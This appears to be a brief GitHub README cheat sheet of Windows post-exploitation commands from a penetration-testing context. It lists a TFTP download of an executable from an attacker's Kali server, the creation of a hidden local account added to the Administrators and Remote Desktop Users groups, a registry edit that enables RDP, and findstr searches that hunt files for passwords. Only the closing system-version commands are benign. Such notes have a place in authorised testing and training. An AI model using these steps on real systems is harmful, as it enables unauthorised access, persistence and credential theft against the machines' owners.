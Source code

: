 # windows-stuff
### Install TFTP (Windows 7, Windows Vista, Windows Server 2008/2008 R2)
pkgmgr /iu:"TFTP"

C:\>tftp -i IPADDRESS get FILE.EXE
	
Make sure it is set up/running on Kali

mkdir /tftp

atftpd --daemon --port 69 /tftp

cp /FILE.EXE /tftp/


### Add a local user account
net user tester testing /ADD

### Add a local user account to the Local Administrators group
net localgroup administrators tester /ADD

### Add a local user account to the Remote Desktop Users group
net localgroup "Remote Desktop Users" tester /ADD

### Enable RDP on the system (port 3389)
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

### Search for a file
C:\> dir filename.txt /s

### Search for a string in all files
findstr /S /I /M password c: \*

  Go crazy:   findstr /si password *.txt | *.xml | *.ini | *.doc | *.snt | *.html | *.rtf | *.docx | *.eml | *.msg
	  
	  More info on options: https://en.wikipedia.org/wiki/Findstr

### Windows System Version
systeminfo | findstr /B /C: "OS Name" /C:"OS Version"

systeminfo

ver


